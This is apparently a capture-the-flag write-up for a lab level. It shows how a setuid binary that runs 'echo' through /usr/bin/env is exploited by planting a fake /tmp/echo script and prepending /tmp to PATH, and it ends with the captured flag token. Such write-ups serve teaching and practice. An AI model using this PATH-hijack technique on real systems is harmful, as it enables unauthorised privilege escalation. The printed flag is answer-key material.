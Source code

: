 <!DOCTYPE html>
<html>
<body>
<h1>Level 03</h1>
<ul>
	<li>We spawn with a <code>level03</code> file in root repository</li>
	<li>No extension so I try to execute it and it prints &#39;Exploit me&#39;</li>
	<li>Then I try to <em>cat</em> the file but its unreadable</li>
	<li>Using &#39;file&#39;
		<blockquote>
		<p><code>level03: setuid setgid ELF 32-bit LSB executable</code></p>
		</blockquote>
	</li>
	<li>I still wanted to get a good look at the file so I used:
	<blockquote>
		<p>
		<code>objdump -M Intel -d level03</code>
		<p><em>The -M Intel to get a more readable asm for me</em></p>
		</p>
	</blockquote>
	</li>
	<li>Code was still kinda bad so I did a little script to make it cleaner
		<blockquote>
		<p><code>sh cutlines.sh</code></p>
		</blockquote>
	</li>
	<li>We can see many calls but one of them is a system one</li>
	<li>So when we look into it on <code>gdb</code><blockquote>
	<p><code>0x80485e0:       &quot;/usr/bin/env echo Exploit me&quot;</code></p>
	</blockquote>
	</li>
	<li>It seems like <code>echo</code> is vulnerable to manipulation since it&#39;s called using <code>/usr/bin/env</code> which makes the computer use the first binary found in <code>PATH</code></li>
	<li>So we should be able to create a script called echo to get the flag for us !
	<blockquote>
		<p><code>echo &#39;getflag&#39; &gt; /tmp/echo</code></p>
		<p><code>export PATH=/tmp:$PATH</code></p>
		<p><code>./level03</code></p>
	</blockquote>
	</li>
	<li>DOESN&#39;T WORK ! WHY ? (Well I forgot a little something)
		<blockquote>
			</p><code>chmod +x /tmp/echo</code></p>
			</p><code>./level03</code></p>
			</p><code>Check flag.Here is your token : qi0maab88jeaj46qoumi7maus</code></p>
		</blockquote>
	</li>
</ul>
<body>
<html>